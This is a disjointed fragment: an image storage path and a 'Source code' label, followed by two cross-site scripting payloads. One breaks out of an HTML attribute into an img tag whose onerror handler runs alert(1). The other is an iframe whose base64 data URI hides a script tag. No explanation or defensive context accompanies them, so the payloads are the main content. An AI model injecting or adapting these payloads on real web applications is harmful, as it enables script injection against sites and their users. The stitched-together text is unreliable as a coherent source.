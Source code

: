 "/><img src=x onerror=alert(1)>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4=">
